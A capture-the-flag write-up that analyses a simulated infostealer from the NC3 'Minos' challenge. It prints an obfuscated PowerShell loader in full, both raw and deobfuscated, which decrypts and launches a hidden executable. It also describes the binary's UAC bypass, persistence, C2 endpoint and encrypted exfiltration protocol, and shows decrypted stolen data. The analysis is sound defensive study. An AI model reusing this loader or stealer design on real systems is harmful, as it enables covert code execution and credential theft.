


+++
title = 'Minos 4: Infostealer'
categories = ['Malware']
tags = ["CTF", "NC3", "Malware"]
date = 2025-12-12T20:30:00+01:00
scrollToTop = true
author = "Loff"
+++

## Challenge Name:

Minos 4: Infostealer

## Category:

Malware

## Challenge Description:
```text
Du er nået til sidste led i angrebskæden: Infostealeren. Den er blevet loadet og eksekveret på Joes computer, og det er sandsynlig, han har fået stjålet information.

Find ud af, hvordan malwaren virker og kommunikerer med C2-serveren og tjek, hvad Joe har fået stjålet!

⚠️⚠️⚠️
MALWAREN SIMULERER ÆGTE MALWARE,
ANALYSER OG KØR KUN I ET KONTROLLERET MILJØ
⚠️⚠️⚠️

OBS: Bruger samme filer som Minos 1: Initial Access
```
[Minos 1: Initial Access](../minos-1-initial-access/index.md)

This is the final stage of round 1: identify the infostealer payload, understand its C2 protocol, decrypt the captured traffic, and determine what data was exfiltrated from Joe’s machine.

## Approach 

To begin, we need to locate the actual infostealer binary. The [previous task](../minos-3-loader/index.md#layer-13) ended with a heavily obfuscated PowerShell stage:

```powershell
@('if(1 -eq 1){','$D=@(''00112',''',''233'',''44','55'',''667'',''','7889'',''9AAB','B'',''CCDDEE''',',''FF'',''1y7''',',''COf'',''tJB',''',''qWL'',''Ld','h'',''c8GVI'',','''rimA6'',''zX','CY'',''v9L'',''','yDLPJ'',''f1U','DuO'',''MBf'',','''ZV8AEP'',''/','X+gz'',''x/Pc',''',''s9cCd'',''','duLj'',''6Pk3','wh'',''99CHY''',',''1j3'',''1i/','NM'',''PcH'',''','VL/'',''YHMFe','9'',''jAJ'',''8','Sm18'',''iPSc','u8'',''='');
f','unction __d','ecqBIRMu($k',',[byte[]]$d','){$s=0..255',';$j=((0x685',' -bxor 0x68','0)-5);for($','i=((0x4BD3 ','-bxor 0x4BD','7)-4);$i -l','t ((0x1261 ','-bxor 0x136','0)-1);$i++)','{$j=($j+$s[','$i]+$k[$i%$','k.Length])%','((0x2639 -b','xor 0x273C)','-5);$t=$s[$','i];$s[$i]=$','s[$j];$s[$j',']=$t}$i=((0','x58D -bxor ','0x588)-5);$','j=((0x5683 ','-bxor 0x568','6)-5);for($','x=((0x3BA0 ','-bxor 0x3BA','1)-1);$x -l','t $d.Length',';$x++){$i=(','$i+((0x65FC',' -bxor 0x65','F9)-4))%((0','x3093 -bxor',' 0x3190)-3)',';$j=($j+$s[','$i])%((0x2B','9F -bxor 0x','2A9A)-5);$t','=$s[$i];$s[','$i]=$s[$j];','$s[$j]=$t;$','d[$x]=$d[$x','] -bxor $s[','($s[$i]+$s[','$j])%((0x35','66 -bxor 0x','3464)-2)]}[','Text.Encodi','ng]::UTF8.G','etString($d',')}
$XxINhdIR','wn = Join-P','ath $env:L','OCALAPPDATA',' (__decqBIR','Mu ([byte[]','](0..(((0x5','D8F -bxor 0','x5D9C)-3)-(','(0x465E -bx','or 0x465C)-','1))|%{[Conv','ert]::ToByt','e(''00112233','44556677889','9AABBCCDDEE','FF''.Substri','ng($_*((0x2','A80 -bxor 0','x2A83)-1),(','(0x4A89 -bx','or 0x4A8E)-','5)),((0x2EE','1 -bxor 0x2','EF3)-2))}))',' ([Convert]','::FromBase6','4String(($D','[((0x1CD5 -','bxor 0x1CC6',')-2)]+$D[((','0x8B4 -bxor',' 0x8A7)-1)]','+$D[((0x68E','A -bxor 0x6','8FE)-1)]+$D','[((0xD1B -b','xor 0xD0E)-','1)]+$D[((0x','386F -bxor ','0x3875)-5)]','+$D[((0x22B','5 -bxor 0x2','2AC)-3)]+$D','[((0x7D12 -','bxor 0x7D08',')-3)]+$D[((','0x7B5C -bxo','r 0x7B47)-3',')]+$D[((0x5','DF3 -bxor 0','x5DEF)-3)]+','$D[((0x7F95',' -bxor 0x7F','8E)-1)]+$D[','((0x66B4 -b','xor 0x66AA)','-3)]))))
St','art-Process',' $XxINhdIRw','n -Argument','List (__dec','qBIRMu ([by','te[]](0..((','(0x4ADE -bx','or 0x4ACF)-','1)-((0x2A50',' -bxor 0x2A','53)-2))|%{[','Convert]::T','oByte(''0011','22334455667','78899AABBCC','DDEEFF''.Sub','string($_*(','(0x53CB -bx','or 0x53C8)-','1),((0x7DBF',' -bxor 0x7D','BB)-2)),((0','x202D -bxor',' 0x2038)-5)',')})) ([Conv','ert]::FromB','ase64String','(''qjnNNPlAE','+qNN90='')))','
','}')-join''|.("Write-HostX"[2,4,10]-join'');@('Start-Process -Wi','ndowStyle H','idden -File','Path powers','hell.exe -A','rgumentList',' @(''-NoP','rofile'',''-C','ommand'',','''Add-Type -','AssemblyNam','e System.Wi','ndows.Forms',';[System.Wi','ndows.Forms','.MessageBox',']::Show(''''P','A','R','T','6',':','u','s','3','r','-','p','w','n','3','d',':','3}'''',''','''PWNED'''')''',')')-join''|.("Write-HostX"[2,4,10]-join'');@('function _','_decXxINhd(','$k,[byte[]]','$d){$s=0..2','55;$j=((0x4','682 -bxor 0','x4681)-3);f','or($i=((0x4','228 -bxor 0','x422A)-2);$',
'i -lt ((0x1','765 -bxor 0','x1667)-2);$','i++){$j=($j','+$s[$i]+$k[','$i%$k.Lengt','h])%((0x219','8 -bxor 0x2','09D)-5);$t=','$s[$i];$s[$','i]=$s[$j];$','s[$j]=$t}$i','=((0x1627 -','bxor 0x1623',')-4);$j=((0','x180C -bxor',' 0x1808)-4)',';for($x=((0','x466A -bxor',' 0x466F)-5)',';$x -lt $d.','Length;$x++','){$i=($i+((','0x214B -bxo','r 0x214D)-5','))%((0x44D3',' -bxor 0x45','D7)-4);$j=(','$j+$s[$i])%','((0x33D8 -b','xor 0x32DB)','-3);$t=$s[$','i];$s[$i]=$','s[$j];$s[$j',']=$t;$d[$x]','=$d[$x] -bx','or $s[($s[$','i]+$s[$j])%','((0x46AD -b','xor 0x47A8)','-5)]}[Text.',
'Encoding]::','UTF8.GetStr','ing($d)}W','rite-Host (','__decXxINhd',' ([byte[]](','0..(((0xCD9',' -bxor 0xCC','C)-5)-((0x9','36 -bxor 0x','935)-2))|%{','[Convert]::','ToByte(''001','12233445566','778899AABBC','CDDEEFF''.Su','bstring($_*','((0x288E -b','xor 0x2889)','-5),((0x303','3 -bxor 0x3','037)-2)),((','0x3EBF -bxo','r 0x3EAA)-5','))})) ([Con','vert]::From','Base64Strin','g(''1jjDJfcd','QbbKdooJuWU','J/WSgqXCTIa','tdBcJkEDWO''',')))exit ((',
'0x2185 -bxo','r 0x2187)-2',')')-join''|Invoke-Expression
```

After deobfuscation using [PowerDecode](https://github.com/Malandrone/PowerDecode), it became readable enough to follow:

```powershell
if(1 -eq 1){$D=@('00112','233','4455','667','7889','9AABB','CCDDEE','FF','1y7','COf','tJB','qWL','Ldh','c8GVI','rimA6','zXCY','v9L','yDLPJ','f1UDuO','MBf','ZV8AEP','/X+gz','x/Pc','s9cCd','duLj','6Pk3wh','99CHY','1j3','1i/NM','PcH','VL/','YHMFe9','jAJ','8Sm18','iPScu8','=');
function __decqBIRMu($k,[byte[]]$d){$s=0..255;$j=((0x685 -bxor 0x680)-5);for($i=((0x4BD3 -bxor 0x4BD7)-4);$i -lt ((0x1261 -bxor 0x1360)-1);$i++){$j=($j+$s[$i]+$k[$i%$k.Length])%((0x2639 -bxor 0x273C)-5);$t=$s[$i];$s[$i]=$s[$j];$s[$j]=$t}$i=((0x58D -bxor 0x588)-5);$j=((0x5683 -bxor 0x5686)-5);for($x=((0x3BA0 -bxor 0x3BA1)-1);$x -lt $d.Length;$x++){$i=($i+((0x65FC -bxor 0x65F9)-4))%((0x3093 -bxor 0x3190)-3);$j=($j+$s[$i])%((0x2B9F -bxor 0x2A9A)-5);$t=$s[$i];$s[$i]=$s[$j];$s[$j]=$t;$d[$x]=$d[$x] -bxor $s[($s[$i]+$s[$j])%((0x3566 -bxor 0x3464)-2)]}[Text.Encoding]::UTF8.GetString($d)}
$XxINhdIRwn = Join-Path $env:LOCALAPPDATA (__decqBIRMu ([byte[]](0..(((0x5D8F -bxor 0x5D9C)-3)-((0x465E -bxor 0x465C)-1))|%{[Convert]::ToByte('00112233445566778899AABBCCDDEEFF'.Substring($_*((0x2A80 -bxor 0x2A83)-1),((0x4A89 -bxor 0x4A8E)-5)),((0x2EE1 -bxor 0x2EF3)-2))})) ([Convert]::FromBase64String(($D[((0x1CD5 -bxor 0x1CC6)-2)]+$D[((0x8B4 -bxor 0x8A7)-1)]+$D[((0x68EA -bxor 0x68FE)-1)]+$D[((0xD1B -bxor 0xD0E)-1)]+$D[((0x386F -bxor 0x3875)-5)]+$D[((0x22B5 -bxor 0x22AC)-3)]+$D[((0x7D12 -bxor 0x7D08)-3)]+$D[((0x7B5C -bxor 0x7B47)-3)]+$D[((0x5DF3 -bxor 0x5DEF)-3)]+$D[((0x7F95 -bxor 0x7F8E)-1)]+$D[((0x66B4 -bxor 0x66AA)-3)]))))
Start-Process $XxINhdIRwn -ArgumentList (__decqBIRMu ([byte[]](0..(((0x4ADE -bxor 0x4ACF)-1)-((0x2A50 -bxor 0x2A53)-2))|%{[Convert]::ToByte('00112233445566778899AABBCCDDEEFF'.Substring($_*((0x53CB -bxor 0x53C8)-1),((0x7DBF -bxor 0x7DBB)-2)),((0x202D -bxor 0x2038)-5))})) ([Convert]::FromBase64String('qjnNNPlAE+qNN90=')))
}
Start-Process -WindowStyle Hidden -FilePath powershell.exe -ArgumentList @('-NoProfile','-Command','Add-Type -AssemblyName System.Windows.Forms;[System.Windows.Forms.MessageBox]::Show(''PART6:us3r-pwn3d:3}'',''PWNED'')')
function __decXxINhd($k,[byte[]]$d){$s=0..255;$j=((0x4682 -bxor 0x4681)-3);for($i=((0x4228 -bxor 0x422A)-2);$i -lt ((0x1765 -bxor 0x1667)-2);$i++){$j=($j+$s[$i]+$k[$i%$k.Length])%((0x2198 -bxor 0x209D)-5);$t=$s[$i];$s[$i]=$s[$j];$s[$j]=$t}$i=((0x1627 -bxor 0x1623)-4);$j=((0x180C -bxor 0x1808)-4);for($x=((0x466A -bxor 0x466F)-5);$x -lt $d.Length;$x++){$i=($i+((0x214B -bxor 0x214D)-5))%((0x44D3 -bxor 0x45D7)-4);$j=($j+$s[$i])%((0x33D8 -bxor 0x32DB)-3);$t=$s[$i];$s[$i]=$s[$j];$s[$j]=$t;$d[$x]=$d[$x] -bxor $s[($s[$i]+$s[$j])%((0x46AD -bxor 0x47A8)-5)]}[Text.Encoding]::UTF8.GetString($d)}Write-Host (__decXxINhd ([byte[]](0..(((0xCD9 -bxor 0xCCC)-5)-((0x936 -bxor 0x935)-2))|%{[Convert]::ToByte('00112233445566778899AABBCCDDEEFF'.Substring($_*((0x288E -bxor 0x2889)-5),((0x3033 -bxor 0x3037)-2)),((0x3EBF -bxor 0x3EAA)-5))})) ([Convert]::FromBase64String('1jjDJfcdQbbKdooJuWUJ/WSgqXCTIatdBcJkEDWO')))exit ((0x2185 -bxor 0x2187)-2)
```

## From loader to binary

Further on in the PowerDecode report, we get the value of the $XxINhdIRwn variable:
```txt
--------------------------------------------------
Name: 
XxINhdIRwn
-------
Value: 
C:\Users\<username>\AppData\Local\Microsoft\OneDrive\OneDrivePortable.exe
--------------------------------------------------
```

So the loader ultimately launches:
`OneDrivePortable.exe` under `%LOCALAPPDATA%\Microsoft\OneDrive\` 

This file also appears in the network capture from [earlier tasks](../minos-2-stager/readme.md#inspecting-the-pcap), which makes it straightforward to extract and analyze.

## Reverse engineering `OneDrivePortable.exe`

I extracted `OneDrivePortable.exe` and loaded it into Ghidra.

It uses a lot of [Skuld modules](https://github.com/hackirby/skuld/tree/main/modules) to do various nefarious stuff.


At a high level, the binary behaves like a modular infostealer/agent:
* Attempts to hide itself / reduce user visibility
* Displays a safety prompt requiring the user to type "infected" (CTF safety gate)
* Performs privilege and persistence steps:
  * UAC bypass behavior
  * Persistence via startup locations / autoruns-style entries
  * Runs multiple environment checks and anti-analysis behaviors:
    * anti-debug / anti-sandbox / AV checks
    * fake error / disruption logic
* Initializes C2 configuration and waits for instructions / begins beaconing

During analysis, I also recovered the hardcoded C2 endpoint:
```text
http://m1n0s.nc3:9011
```

## C2 protocol and encryption

Once the C2 URL was known, the next step was figuring out how the malware formats requests and encrypts content.

From reversing the binary, the request/response flow is roughly:

1) Serialize payload: JSON → bytes
2) Compress: gzip(payload)
3) Obfuscate: xorEncrypt(gzipped_payload, timestamp)
   * Keystream derived from the timestamp
   * Timestamp is also transmitted as a custom HTTP header: X-Timestamp
4) Encrypt: AES-GCM
   * key hardcoded in the binary: `Nu det jul og træet tændes på ny`
   * random nonce generated per message
5) Encode: Base64


So summing up, body format:
```text
base64( nonce(12 bytes) || AES-GCM(ciphertext+tag) )
```

Where the AES-GCM plaintext is:
```text
xorEncrypt( gzip(json.Marshal(payload)), timestamp )
```

This is nice from an analyst point of view: the only dynamic values are:
* nonce (included in the body)
* timestamp (included as custom http header)

That means offline decryption is possible.

## Decrypting the traffic

I wrote a small [decryptor script](files/decypt.py), based on the reverse engineered logic and with some ChatGPT help, and used Wireshark to identify candidate packets.

Since the timestamp is in a custom header, filtering in Wireshark for relevant packets is easy:

```text
http && http contains "X-Timestamp"
```



The first matching request corresponds to downloading `OneDrivePortable.exe`. The following requests contain encrypted bodies.

Example packet (first after the file download):
* `X-Timestamp: 1764557609`
* Body:
```text
vBvUImscEsRfqq/gVjKCqTd00zhzO3m1wKYCeeoGT2NT+OptY5KvKejZp2hlh2j+0H30YtDqz+gAeqf19Uz0oe9SnQ==
```

Testing the decryptor on this produced valid output:
```bash
py ./decypt.py --body-file ./test-request.b64 --timestamp 1764557609
{"status":"ok"}
```

So we can reliably decrypt the exfil traffic.

## What was stolen?

After decrypting the `/data` style messages, the infostealer revealed a full set of collected data.

**1) System information**
Includes users, disk usage, basic host information, and a Windows product key.

```text
{
    "client_id": "d2112bf6651665479bec9d3225dd1eac",
    "data": {
        "all_users": "C:\\Users\\Default\nC:\\Users\\Joe\nC:\\Users\\Public",
        "disks": "Drive     Free      Total     Use      \nC:        6GB       39GB      83%      \n",
        "network": "IP: 2.128.181.34\nCountry: Denmark\nRegion: Capital Region\nPostal: 1510\nCity: Copenhagen\nISP: Telenor Denmark\nAS: AS9158 Telenor A/S\nLatitude: 55.674000\nLongitude: 12.569600",
        "system": "OS: Not Found\nCPU: Not Found\nGPU: Not Found\nRAM: 4.00 GB\nMAC: 00:0c:29:58:f2:6a\nHWID: Not Found\nProduct Key: 4CPRK-NM3K3-X6XXQ-RXX86-WXCHW",
        "user": "Username: Joe\nHostname: BITNISSE",
        "wifi": "Not Found"
    },
    "data_type": "System Information",
    "timestamp": 1764557614,
    "type": "data"
}
```

**2) Browser collection + password**
A “Browsers” module collected artifacts for Chrome, Edge, and Firefox and returned a password to unlock an uploaded archive later:

```text
{
    "client_id": "d2112bf6651665479bec9d3225dd1eac",
    "data": {
        "description": "📂 - Joe\n    ├── 📂 - Chrome\n    │   └── 📂 - Default\n    │       ├── 📄 - downloads.txt (1.08 kb)\n    │       └── 📄 - history.txt (19.85 kb)\n    ├── 📂 - Edge\n    │   └── 📂 - Default\n    │       ├── 📄 - downloads.txt (0.42 kb)\n    │       └── 📄 - history.txt (1.44 kb)\n    └── 📂 - Firefox\n        ├── 📂 - 338c0rlu.default-release\n        │   ├── 📄 - cookies.txt (8.11 kb)\n        │   ├── 📄 - downloads.txt (0.30 kb)\n        │   └── 📄 - history.txt (16.51 kb)\n        └── 📂 - 6qu8fy1k.default-release-1\n            ├── 📄 - cookies.txt (0.32 kb)\n            ├── 📄 - history.txt (19.51 kb)\n            └── 📄 - logins.txt (0.31 kb)\n",
        "password": "0xWN6IpH1fDICXHC"
    },
    "data_type": "Browsers",
    "timestamp": 1764557624,
    "type": "data"
}
```

**3) Files stealer + password**
The “Files Stealer” module identified sensitive files, including `metamask.txt.txt` we found in the first task.

```text
{
    "client_id": "d2112bf6651665479bec9d3225dd1eac",
    "data": {
        "description": "📂 - Joe\n    └── 📄 - metamask.txt.txt (0.08 kb)\n",
        "files_found": 2,
        "password": "bEYDet5GQshhdFRm"
    },
    "data_type": "Files Stealer",
    "timestamp": 1764557627,
    "type": "data"
}
```

**4) Discord token theft**
The malware stole Joe’s Discord identity data, including email, token, user ID and avatar URL.

## Exfiltrated uploads

The `/upload` style requests were not JSON. They were files:


1) A screenshot from Joe’s system at execution time:
   


2) Two password-protected ZIP archives:
   * One for browser artifacts (unlocked with password from browser json)
   * One for stolen files (unlocked with password from file stealer json)

Inside the browser archive, I found Firefox stored logins, including a login entry that contains the flag:

```text
URL                                                Username                                           Password                                          
moz-extension://77737e58-b162-4ed6-8f12-788b5fe3230d                                                    NC3{puha_g0dt_du_kun_m1st3d3_crypt0_0g_1kk3_R1GT1G3_p3ng3}

```

## Flag
```text
NC3{puha_g0dt_du_kun_m1st3d3_crypt0_0g_1kk3_R1GT1G3_p3ng3}
```

## Reflections and Learnings

* Reverse engineering enables traffic decryption: once you understand the protocol, even “encrypted” PCAP data becomes readable.
* Timestamp-tied obfuscation is not real security: XOR keyed off a transmitted header is purely obstruction, not cryptography.
* Staged malware design is realistic: stager → loader → payload mirrors how real operators reduce exposure and increase flexibility.
* Infostealers are “wide not deep”: they grab lots of high-value data quickly, browser loot, tokens, seed phrases, then ship it.
* Good challenge craftsmanship: the encrypted protocol + exfil files + passwords embedded in `/data` feels like a coherent operator toolchain.

## Next up

The first Minos series technically ends here, but three additional parts with the same name and theme were later added, starting with [Minos 5: Panel](../minos-5-panel/readme.md).